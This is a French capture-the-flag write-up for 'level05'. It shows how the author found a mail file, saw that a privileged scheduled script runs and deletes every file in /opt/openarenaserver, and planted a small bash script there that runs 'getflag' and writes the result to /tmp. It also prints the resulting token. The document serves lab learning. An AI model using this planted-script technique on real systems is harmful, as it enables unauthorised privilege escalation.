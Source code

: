 # Rapport CTF - [level05]

## Informations générales
- **Durée :** [1h]
- **Équipe :** [vmuller]
- **Participants :** [Valentin Muller]

## Réalisations

1. ### Objectif 1 - Recherche du fichier "mail"
   - **Description :** L'épreuve consistait à rechercher le fichier "mail" pour trouver des informations importantes.
   - **Solution :** Les étapes suivantes ont été réalisées :
     - Utilisation de la commande `find / -type d -name "mail" 2> /dev/null` pour trouver le répertoire contenant les fichiers de courrier.
     - Navigation vers le répertoire `/var/mail`.
     - Consultation du contenu du fichier "level05" avec `cat level05`.

2. ### Objectif 2 - Analyse du contenu du mail
   - **Description :** Analyser le contenu du mail pour comprendre les informations relatives à l'exécution d'un programme.
   - **Solution :** Les étapes suivantes ont été suivies :
     - Lecture du contenu du fichier "level05".
     - Identification de la planification de l'exécution du programme "openarenaserver" toutes les 2 minutes.

3. ### Objectif 3 - Analyse du script "openarenaserver"
   - **Description :** Analyser le script "openarenaserver" pour comprendre son fonctionnement.
   - **Solution :** Les étapes suivantes ont été réalisées :
     - Affichage du contenu du script "openarenaserver" avec `cat /usr/sbin/openarenaserver`.
     - Observation que le script exécute tous les programmes dans le répertoire "/opt/openarenaserver" puis les supprime.
     - Vérification des permissions du script (permissions "rwxr-x---+").

4. ### Objectif 4 - Création d'un programme malveillant
   - **Description :** Créer un programme malveillant pour exploiter les privilèges du script "openarenaserver".
   - **Solution :** Les étapes suivantes ont été effectuées :
     - Création d'un nouveau fichier "test.sh" avec `echo > test.sh`.
     - Édition du fichier "test.sh" avec `vim test.sh` et ajout du code suivant :
       ```bash
       #!/bin/bash

       # Commande dont vous souhaitez obtenir le résultat
       commande="getflag"

       # Chemin complet du fichier de sortie dans /tmp
       fichier_sortie="/tmp/resultat.txt"

       # Exécute la commande et redirige la sortie vers le fichier de sortie
       $commande > $fichier_sortie
       ```
     - Attendre que le script "openarenaserver" exécute "test.sh" toutes les 2 minutes.

5. ### Objectif 5 - Obtention du flag
   - **Description :** Obtenir le flag en exécutant le programme malveillant "test.sh".
   - **Solution :** Les étapes suivantes ont été réalisées :
     - Navigation vers le répertoire "/tmp".
     - Affichage du contenu du fichier "resultat.txt" avec `cat resultat.txt` pour obtenir le token : "viuaaale9huek52boumoomioc".

## Réflexions finales
- **Expérience globale :** L'épreuve liée à level05 a nécessité la compréhension des autorisations de fichiers et l'exploitation d'une vulnérabilité pour exécuter une commande malveillante.
- **Leçons apprises :** J'ai acquis des compétences en analyse de scripts et en création de programmes malveillants pour exploiter des privilèges.
